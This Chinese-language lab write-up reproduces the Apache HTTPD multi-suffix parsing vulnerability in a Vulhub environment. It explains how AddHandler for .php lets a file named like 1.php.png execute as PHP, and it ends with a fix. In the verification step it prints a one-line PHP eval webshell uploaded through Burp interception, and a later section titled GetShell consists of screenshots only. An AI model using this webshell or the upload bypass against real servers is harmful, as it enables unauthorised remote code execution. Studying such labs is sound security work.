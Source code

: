 # Apache HTTPD 多后缀解析漏洞

### 1.1、漏洞描述

Apache HTTPD 支持一个文件拥有多个后缀，并为不同后缀执行不同的指令。比如，如下配置文件：

```php
AddType text/html .html
AddLanguage zh-CN .cn
```

其给`.html`后缀增加了media-type，值为`text/html`；给`.cn`后缀增加了语言，值为`zh-CN`。此时，如果用户请求文件`index.cn.html`，他将返回一个中文的`html`页面

> 常见的媒体格式类型解释：
>
> text/html： HTML格式
>
> text/plain：纯文本格式
>
> image/gif：gif图片格式
>
> application/pdf：pdf格式
>
> application/octet-stream：二进制流数据(常见的文件下载就是这种媒体格式)

以上就是Apache多后缀的特性。如果运维人员给`.php`后缀增加了处理器：

```php
AddHandler application/x-httpd-php .php
```

![image-20230907161940257](./imgs/image-20230907161940257.png)

![image-20230907162008878](./imgs/image-20230907162008878.png)



那么，在有多个后缀的情况下，只要一个文件含有`.php`后缀的文件即将被识别成PHP文件，没必要是最后一个后缀。

利用这个特性，将会造成一个可以绕过上传白名单的解析漏洞



### 1.2、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/apache_parsing_vulnerability

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip`即可看到

![image-20230907162143037](./imgs/image-20230907162143037.png)



#### 2、漏洞验证

上传一句话木马，`bp`拦截数据包

```php
<?php
@eval($_REQUEST[6868]);
phpinfo();
?>
```

![image-20230907162421085](./imgs/image-20230907162421085.png)

修改文件名，文件类型

![image-20230907162502491](./imgs/image-20230907162502491.png)

访问 `/uploadfiles/1.php.png`文件

![image-20230907162536133](./imgs/image-20230907162536133.png)

触发php探针

### 1.3、深度利用

![image-20230907163315880](./imgs/image-20230907163315880.png)

#### GetShell

![image-20230907162933746](./imgs/image-20230907162933746.png)

![image-20230907163047126](./imgs/image-20230907163047126.png)

### 1.4、修复建议

将`AddHandler application/x-httpd-php.php`的配置文件删除